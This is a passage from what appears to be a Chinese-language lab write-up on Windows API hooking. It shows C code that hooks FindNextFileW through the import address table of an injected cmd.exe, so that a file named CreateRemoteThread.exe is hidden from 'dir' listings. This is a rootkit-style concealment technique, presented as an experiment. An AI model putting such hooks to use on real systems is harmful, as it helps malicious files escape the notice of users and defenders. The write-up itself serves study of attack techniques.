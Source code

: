   ```c

  BOOL WINAPI Fake_FindNextFileW(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData)
  {
	  LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
	  BOOL status = fnOrigin(hFindFile, lpFindFileData);
	  if (wcscmp(lpFindFileData->cFileName, L"CreateRemoteThread.exe") == 0)
      // 当遇到文件名为 CreateRemoteThread.exe 的文件，就再获取下一个，这样就越过了
		  status = fnOrigin(hFindFile, lpFindFileData);
	  return status;
  }

  // 修改 DLLMain 中调用 IATHook 函数的传入参数
  IATHook(
		GetModuleHandleW(NULL),
		"API-MS-WIN-CORE-FILE-L1-1-0.dll",
		"FindNextFileW",
		Fake_FindNextFileW,
		&g_hHook_FindNextFileW
  );
  ```
- 实验效果展示，可以看到被攻击的`cmd.exe`使用`dir`时，无法显示目录下的`CreateRemoteThread.exe`：<br>

  <img src="img/display-none.jpg" alt="成功隐藏" width=600>
